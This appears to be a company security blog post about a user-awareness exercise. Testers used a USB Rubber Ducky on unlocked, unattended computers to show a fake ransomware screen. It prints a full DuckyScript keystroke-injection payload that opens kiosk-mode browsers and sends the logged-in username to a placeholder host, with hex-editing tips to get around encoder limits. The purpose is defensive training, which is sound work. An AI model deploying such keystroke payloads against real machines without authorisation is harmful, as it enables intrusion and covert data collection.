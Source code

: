 ```yaml
---
layout: post
title: "Unattended, unlocked, unprotected terminals - User security training with USB Rubber Ducky"
date: 2018-08-21
comments: false
author: Rodney Beede
authorIsRacker: true
published: true
categories:
  - Security
---
```


As part of our user security awareness training, we perform tests of our
personnel in the work environment.  One training exercise involved testing for
unattended computers by inserting a USB device that would display a ransomware
screen.

<!--more-->

## What is USB Rubber Ducky?

USB Rubber Ducky is a product made by a company called Hak5.  You can find
information about it at:

* [Hak5's hackshop.com](https://hakshop.com/products/usb-rubber-ducky-deluxe)
* [Hak5's GitHub Repository](https://github.com/hak5darren/USB-Rubber-Ducky)

To you, it looks like a USB thumb drive, but it actually emulates a USB HID
keyboard.  After it's plugged in, a payload programmed into the device sends
keyboard commands to the computer.

This allows a security tester to quickly run commands on an unprotected computer
without having to sit down at the computer and type.

## Our ransomware exercise

We walked around our location looking for computers that were unattended and
had not been locked (left at the desktop screen).  If we discovered an unattended
computer, we inserted the USB Rubber Ducky into a USB port which delivered our
payload.

### What happens?

The payload sends keystroke commands that:

1. Open up a web browser
1. Place the web browser full screen
1. Open a second web browser on the second monitor
   * Also in full-screen mode
1. Navigate to a fake ransomware page

The fake ransomware page includes text that indicates it is a security test and
provides links to security training for the user.

## Payload code and tools

The tool **duckencoder_2.6.4.jar** from the
[USB Rubber Ducky GitHub site](https://github.com/hak5darren/USB-Rubber-Ducky)
encodes the payload command script for the USB Rubber Ducky hardware.

One limitation is that the encoder does not have built-in support for the key
combination of **win + CTRL + desktop** (open a new virtual desktop).  I
overcame this limitation by manually editing the compiled **inject.bin** with a
hex editor to change the keycode bytes from _07 05_ to _07 09_ (hexadecimal).

Although I have submitted code enhancements to the product's GitHub project,
the maintainers have not updated it in quite some time (Dec. 7, 2016).  Ideally,
the encoder would have support for more key combinations, but most desired
actions can be done without using a hex editor.  I was successful in getting
**STRING_DELAY** added to the official code base, and this script command is
very helpful for writing shorter payloads.

### Code

```
REM Author:  Rodney Beede of GES-TVA
REM Created: 2018-05-31


DEFAULT_DELAY 100

REM startup delay
DELAY 100

REM Create a new desktop is  win + CTRL + desktop
REM ducky script doesn't support this so make it yourself
REM by ORing the MODIFIER_KEY values together! and HxD
REM https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Encoder/resources/keyboard.properties

REM CTRL-ALT d MAKES 07 05
REM CTRL-ALT === 0x05
REM d === 0x07   (these are keyboard codes, not ascii)
REM win+ctrl+d MAKES 07 09
CTRL-ALT d



REM run dialog
GUI r

REM the double quotes are important
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k https://fake-ransomeware-page.example.com/log/%username%
ENTER


REM open a second one and put on the second monitor

GUI r
STRING_DELAY 10 "c:\Program Files\internet explorer\iexplore.exe" -k https://fake-ransomeware-page.example.com/log/%username%
ENTER



REM win+SHIFT+right arrow to move window to other desktop
REM HxD edit so CTRL-ALT (05) becomes WIN+SHIFT value:  0A
REM 4F 05 ===>  4F 0A
CTRL-ALT RIGHT
```


## Summary

We chose the ransomware screen shock factor as a way to educate users of the
security risk to company data.  It creates more ownership (versus just an email
note from security) by demonstrating real-world impact of what could happen
from a malicious actor.

![Ransomware Screen]({% asset_path 2018-08-21-unattended-unlocked-unprotected-terminals-user-security-training/ransomware.png %})

Use the Feedback tab to make any comments or ask questions.
